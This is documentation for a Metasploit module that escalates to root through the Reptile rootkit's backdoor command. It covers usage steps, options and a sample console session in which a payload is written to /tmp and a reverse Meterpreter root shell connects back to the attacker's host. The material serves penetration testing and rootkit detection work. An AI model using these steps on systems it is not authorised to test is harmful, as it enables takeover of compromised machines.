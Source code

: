 ## Description

  This module uses Reptile rootkit's `reptile_cmd` backdoor executable
  to gain root privileges using the `root` command.


## Vulnerable Application

  [Reptile](https://github.com/f0rb1dd3n/Reptile) is a Linux Kernel Module (LKM) rootkit.

  The `reptile_cmd` utility, installed to `/reptile` by default, permits elevating privileges
  to root using the `root` argument.

  This module has been tested successfully with Reptile from `master` branch (2019-03-04) on:

  * Ubuntu 18.04.3 (x64)
  * Linux Mint 19 (X64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **REPTILE_CMD_PATH**

  Path to `reptile_cmd` executable (default: `/reptile/reptile_cmd`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### Ubuntu 18.04.3 (x64)

  ```
  msf5 > use exploit/linux/local/reptile_rootkit_reptile_cmd_priv_esc 
  msf5 exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > check

  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [+] The target is vulnerable.
  msf5 exploit(linux/local/reptile_rootkit_reptile_cmd_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] /reptile/reptile_cmd is executable
  [*] Output: uid=0(root) gid=0(root) groups=0(root)
  [+] Reptile is installed and loaded
  [*] Writing '/tmp/.Q53XrrJ3RFy' (207 bytes) ...
  [*] Executing payload...

  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.166
  [*] Meterpreter session 3 opened (172.16.191.165:4444 -> 172.16.191.166:56736) at 2019-12-08 03:19:01 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.166
  OS           : Ubuntu 18.04 (Linux 5.0.0-25-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

